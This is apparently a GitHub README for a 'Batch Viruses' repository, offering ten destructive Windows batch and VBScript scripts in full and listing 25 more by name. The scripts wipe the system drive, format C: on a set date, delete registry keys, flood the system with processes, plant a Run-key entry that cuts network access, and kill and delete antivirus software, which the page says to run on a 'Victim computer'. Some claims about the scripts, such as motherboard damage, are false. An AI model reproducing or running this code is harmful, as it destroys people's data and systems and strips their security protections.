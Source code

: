 <h1 align="center"> Batch Viruses</h1>

## An awesome collection of different kinds of Computer Viruses written in Batch File.

---
<img src="https://user-images.githubusercontent.com/73777108/149873561-ace30728-a82f-466b-8e43-0433c2c2e87d.png" align="right">

Create amazing yet Deadly viruses with small yet deadly codes. These can be created with just Notepad, and even be downloaded from here.
The viruses here are mostly very dangerous.



---
## ⚠️ALERT: 

- These are only for educational purposes. 
- Never try them on your own device until you are sure of what you are doing.
- Me, or any other contributor to this repo will not be responsible for any damage to your device.
- Handle files with care and awareness.
- Most damages can't be restored or recovered.

---

# The Awesome List of Computer Viruses!


### 1. Deletes all content of a drive


<details><summary> Read More </summary>
 
  
  
<p><a href="https://github.com/SparkScratch-P/batch-virus/blob/main/viruses/virus1.bat">virus1.bat</a></p>
<pre><code> @<span class="hljs-built_in">echo</span> off
<span class="hljs-built_in">del</span> <span class="hljs-variable">%systemdrive%</span>\*.* /f /s /q
shutdown -r -f -t <span class="hljs-number">00</span>
</code></pre>
 

  </details>



### 2. Time Bomb Virus, formats C: on 25 November 2023


<details><summary> Read More </summary>
  
  
  
<p><a href="https://github.com/SparkScratch-P/batch-virus/blob/main/viruses/virus2.bat">virus2.bat</a></p>
<pre><code><span class="hljs-keyword">If</span> <span class="hljs-variable">%date%</span> <span class="hljs-keyword">NEQ</span> <span class="hljs-number">2023</span>/<span class="hljs-number">11</span>/<span class="hljs-number">25</span> <span class="hljs-keyword">goto</span> <span class="hljs-keyword">exit</span>
<span class="hljs-built_in">format</span> C: /y &gt;<span class="hljs-built_in">nul</span>
:<span class="hljs-keyword">exit</span>
<span class="hljs-keyword">exit</span>
</code></pre><p>The Date, Time, and the Drive to be formatted can be changed.</p>
  
   

  </details>



### 3. Crash Ur Computer of Windows Xp


<details><summary> Read More </summary>

<p><a href="https://github.com/SparkScratch-P/batch-virus/blob/main/viruses/virus3.bat">virus3.bat</a></p>
<pre><code><span class="hljs-keyword">Option</span> <span class="hljs-keyword">Explicit</span>

<span class="hljs-keyword">Dim</span> WSHShell
<span class="hljs-keyword">Set</span> WSHShell=Wscript.<span class="hljs-built_in">CreateObject</span>(“Wscript.Shell”)

<span class="hljs-keyword">Dim</span> x
<span class="hljs-keyword">For</span> x = <span class="hljs-number">1</span> <span class="hljs-keyword">to</span> <span class="hljs-number">100000000</span>
WSHShell.Run “Tourstart.exe”
<span class="hljs-keyword">Next</span>
</code></pre><p>This Virus works only for Windows XP, and besides formatting the drives, it damages the motherboard.</p>

   

  </details>

### 4.  Delete Key Registry Files 



<details><summary> Read More </summary>
 
 <p><a href="https://github.com/SparkScratch-P/batch-virus/blob/main/viruses/virus4.bat">virus4.bat</a></p>
<pre><code>@ECHO OFF
START <span class="hljs-keyword">reg</span> <span class="hljs-keyword">delete</span> HKCR/.<span class="hljs-keyword">exe</span>
START <span class="hljs-keyword">reg</span> <span class="hljs-keyword">delete</span> HKCR/.dll
START <span class="hljs-keyword">reg</span> <span class="hljs-keyword">delete</span> HKCR/*
:MESSAGE
ECHO Your computer <span class="hljs-built_in">has</span> been fcked. Have <span class="hljs-keyword">a</span> nice day.
GOTO MESSAGE
</code></pre><p>This virus is extremely dangerous, don&#39;t run it on your device.</p>

  </details>

### 5. The Most Simple Virus To Crush The Window. Delete C:/


<details><summary> Read More </summary>
 
 
<p><a href="https://github.com/SparkScratch-P/batch-virus/blob/main/viruses/virus5.bat">virus5.bat</a></p>
<pre><code>@Echo <span class="hljs-literal">off</span>
Del C:<span class="hljs-string">\</span> *.* |y
</code></pre><p>Your device will not restart again, after it runs once!</p>

 
  </details>
 
 
 ### 6. Endless Notepads


<details><summary> Read More </summary>
 
 
<p><a href="https://github.com/SparkScratch-P/batch-virus/blob/main/viruses/virus6.bat">virus6.bat</a></p>
<pre><code>@<span class="hljs-built_in">ECHO</span> off
:top
<span class="hljs-built_in">START</span> <span class="hljs-variable">%SystemRoot%</span>\system32\notepad.exe
<span class="hljs-keyword">GOTO</span> top
</code></pre><p>This will open endless notepads, until ur system gets overloaded, hanged, and crashed!</p>
<p>NOTE : If you mistakenly open it, immediately power of and force shut down your computer, else it may crash, never to start again.</p>

 
  </details>
 

### 7. Disable Internet Permanently


<details><summary> Read More </summary>
 
 <p><a href="https://github.com/SparkScratch-P/batch-virus/blob/main/viruses/virus7.bat">virus7.bat</a></p>
<pre><code><span class="hljs-symbol">echo</span> <span class="hljs-comment">@echo off&gt;c:windowswimn32.bat</span>
<span class="hljs-symbol">echo</span> <span class="hljs-keyword">break </span>off&gt;&gt;c:windowswimn32.<span class="hljs-keyword">bat
</span><span class="hljs-symbol">echo</span> ipconfig/release_all&gt;&gt;c:windowswimn32.<span class="hljs-keyword">bat
</span><span class="hljs-symbol">echo</span> <span class="hljs-meta">end</span>&gt;&gt;c:windowswimn32.<span class="hljs-keyword">bat
</span><span class="hljs-symbol">reg</span> <span class="hljs-keyword">add </span>hkey_local_machinesoftwaremicrosoftwindowscurrentv ersionrun /v WINDOWsAPI /t reg_sz /d c:windowswimn32.<span class="hljs-keyword">bat </span>/f
<span class="hljs-symbol">reg</span> <span class="hljs-keyword">add </span>hkey_current_usersoftwaremicrosoftwindowscurrentve rsionrun /v CONTROLexit /t reg_sz /d c:windowswimn32.<span class="hljs-keyword">bat </span>/f
<span class="hljs-symbol">echo</span> You Have <span class="hljs-keyword">Been </span>HACKED!
<span class="hljs-symbol">PAUSE</span>
</code></pre><p>Your device will never ever connect to the internet if this virus runs once!</p>
  
  </details>
 


### 8. Crazy Caps Lock


<details><summary> Read More </summary>
 
 <p><a href="https://github.com/SparkScratch-P/batch-virus/blob/main/viruses/virus8.bat">virus8.bat</a></p>
<pre><code><span class="hljs-keyword">Set</span> wshShell <span class="hljs-comment">=wscript.CreateObject(</span>”<span class="hljs-comment">WScript.Shell</span>”<span class="hljs-comment">)</span>
do
wscript.sleep <span class="hljs-comment">100</span>
wshshell.sendkeys “<span class="hljs-comment">{CAPSLOCK}</span>”
loop
</code></pre><p>This repeatedly toggles your Caps Lock key. It is fully harmless and gets proper on reboot, or once the task is ended in Task Manager.</p>

   
  </details>


### 9. Endless Backspace



<details><summary> Read More </summary>
 
<p><a href="https://github.com/SparkScratch-P/batch-virus/blob/main/viruses/virus9.bat">virus9.bat</a></p>
<pre><code>MsgBox “Let’s go back <span class="hljs-selector-tag">a</span> few steps”
Set wshShell =wscript.CreateObject(”WScript.Shell”)
do
wscript<span class="hljs-selector-class">.sleep</span> <span class="hljs-number">100</span>
wshshell<span class="hljs-selector-class">.sendkeys</span> “{bs}”
loop
</code></pre><p>This will repeatedly keep pressing your Backspace, and will not let u type. It pops up a message; “Let’s go back a few steps”, and starts nuisence. Anyways, it is temporary, and harmless.</p>
    
  </details>


### 10. Disable the Antivirus



<details><summary> Read More </summary>
 
 
 <p><a href="https://github.com/SparkScratch-P/batch-virus/blob/main/viruses/virus10.bat">virus10.bat</a></p>
<pre><code>@ echo off
rem —
rem Permanently Kill Anti-Virus
net stop “Security Center”
netsh firewall <span class="hljs-keyword">set</span> opmode <span class="hljs-comment">mode=disable</span>
tskill /A av*
tskill /<span class="hljs-comment">A fire*</span>
tskill /A anti*
cls
tskill /<span class="hljs-comment">A spy*</span>
tskill /A bullguard
tskill /<span class="hljs-comment">A PersFw</span>
tskill /A KAV*
tskill /<span class="hljs-comment">A ZONEALARM</span>
tskill /A SAFEWEB
cls
tskill /<span class="hljs-comment">A OUTPOST</span>
tskill /A nv*
tskill /<span class="hljs-comment">A nav*</span>
tskill /A F-*
tskill /<span class="hljs-comment">A ESAFE</span>
tskill /A cle
cls
tskill /<span class="hljs-comment">A BLACKICE</span>
tskill /A def*
tskill /<span class="hljs-comment">A kav</span>
tskill /A kav*
tskill /<span class="hljs-comment">A avg*</span>
tskill /A ash*
cls
tskill /<span class="hljs-comment">A aswupdsv</span>
tskill /A ewid*
tskill /<span class="hljs-comment">A guard*</span>
tskill /A guar*
tskill /<span class="hljs-comment">A gcasDt*</span>
tskill /A msmp*
cls
tskill /<span class="hljs-comment">A mcafe*</span>
tskill /A mghtml
tskill /<span class="hljs-comment">A msiexec</span>
tskill /A outpost
tskill /<span class="hljs-comment">A isafe</span>
tskill /A zap*
cls
tskill /<span class="hljs-comment">A zauinst</span>
tskill /A upd*
tskill /<span class="hljs-comment">A zlclien*</span>
tskill /A minilog
tskill /<span class="hljs-comment">A cc*</span>
tskill /A norton*
cls
tskill /<span class="hljs-comment">A norton au*</span>
tskill /A ccc*
tskill /<span class="hljs-comment">A npfmn*</span>
tskill /A loge*
tskill /<span class="hljs-comment">A nisum*</span>
tskill /A issvc
tskill /<span class="hljs-comment">A tmp*</span>
cls
tskill /A tmn*
tskill /<span class="hljs-comment">A pcc*</span>
tskill /A cpd*
tskill /<span class="hljs-comment">A pop*</span>
tskill /A pav*
tskill /<span class="hljs-comment">A padmin</span>
cls
tskill /A panda*
tskill /<span class="hljs-comment">A avsch*</span>
tskill /A sche*
tskill /<span class="hljs-comment">A syman*</span>
tskill /A virus*
tskill /<span class="hljs-comment">A realm*</span>
cls
tskill /A sweep*
tskill /<span class="hljs-comment">A scan*</span>
tskill /A ad-*
tskill /<span class="hljs-comment">A safe*</span>
tskill /A avas*
tskill /<span class="hljs-comment">A norm*</span>
cls
tskill /A offg*
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\alwils~<span class="hljs-number">1</span>\avast4\*.*
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\Lavasoft\Ad-awa~<span class="hljs-number">1</span>\*.exe
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\kasper~<span class="hljs-number">1</span>\*.exe
cls
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\trojan~<span class="hljs-number">1</span>\*.exe
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\f-prot95\*.dll
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\tbav\*.dat
cls
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\avpersonal\*.vdf
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\Norton~<span class="hljs-number">1</span>\*.cnt
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\Mcafee\*.*
cls
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\Norton~<span class="hljs-number">1</span>\Norton~<span class="hljs-number">1</span>\Norton~<span class="hljs-number">3</span>\*.*
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\Norton~<span class="hljs-number">1</span>\Norton~<span class="hljs-number">1</span>\speedd~<span class="hljs-number">1</span>\*.*
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\Norton~<span class="hljs-number">1</span>\Norton~<span class="hljs-number">1</span>\*.*
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\Norton~<span class="hljs-number">1</span>\*.*
cls
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\avgamsr\*.exe
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\avgamsvr\*.exe
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\avgemc\*.exe
cls
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\avgcc\*.exe
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\avgupsvc\*.exe
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\grisoft
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\nood32krn\*.exe
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\nood32\*.exe
cls
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\nod32
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\nood32
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\kav\*.exe
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\kavmm\*.exe
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\kaspersky\*.*
cls
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\ewidoctrl\*.exe
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\guard\*.exe
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\ewido\*.exe
cls
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\pavprsrv\*.exe
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\pavprot\*.exe
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\avengine\*.exe
cls
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\apvxdwin\*.exe
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\webproxy\*.exe
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\panda software\*.*
rem —
</code></pre><p>This will disable your antivirus for the timbing.  One can run it on Victim computer before loading any virus to it!</p>
     
  </details>
 
 
 
 # This was just a list of ten. There are 25 More in our collection, here on Github!

virus11.bat
Task-kill some apps
virus12.bat
Command Line Notepad
yesterday
virus13.bat
CD/ROM popper with malicious popups
yesterday
virus14.bat
CD drive popup
yesterday
virus15.bat
stop current internet access
virus16.bat
Format all Drives from C to J
virus17.bat
Delete Entire Registry
virus18.bat
Crash PC for ever
virus19.bat
Application bomber
virus20.bat
Delete System 32 Folder
virus21.bat
Disgust and shut down!
virus22.bat
Destroy-shutdown with popup
virus23.bat
Shutdowns Computer Everytime It Is Turned On
virus24.bat
Change useful random files to on-working txt files
virus25.bat
system meltdown
virus26.bat
flood internet
virus27.bat
Matrix virus
virus28.bat
Bloat randon folder
virus29.bat
User Account Bloatware
virus30.bat
overload with unlimited background processes

virus31.bat
Rabs killer and system crasher virus
virus32.bat
Show incognito history
virus33.bat
Delete entire system
virus34.bat
Create virus34.bat
virus35.bat
txt bloater
